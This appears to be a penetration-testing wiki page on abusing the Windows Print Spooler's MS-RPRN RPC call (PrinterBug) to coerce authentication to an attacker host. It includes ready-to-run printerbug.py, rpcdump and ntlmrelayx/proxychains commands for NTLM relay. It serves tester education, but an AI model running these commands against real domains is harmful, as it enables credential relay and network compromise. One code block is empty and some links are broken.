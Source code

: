 # MS-RPRN abuse (PrinterBug)

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments ([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)).

**The coerced authentications are made over SMB**. But MS-RPRN abuse can be combined with [WebClient abuse](broken-reference) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The "specific call" mentioned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method, which is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

{% hint style="info" %}
The attacker needs a foothold on the domain (i.e. compromised account) for this attack to work since the coercion is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) (Python).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) or [SpoolSample](https://github.com/leechristensen/SpoolSample) (C#). There are many alternatives available publicly on the Internet.

{% tabs %}
{% tab title="printerbug" %}
Trigger the spooler service

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```
```
{% endtab %}

{% tab title="ntlmrelayx" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](broken-reference) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains printerbug.py -no-pass 'DOMAIN'/'USER'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilites of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}

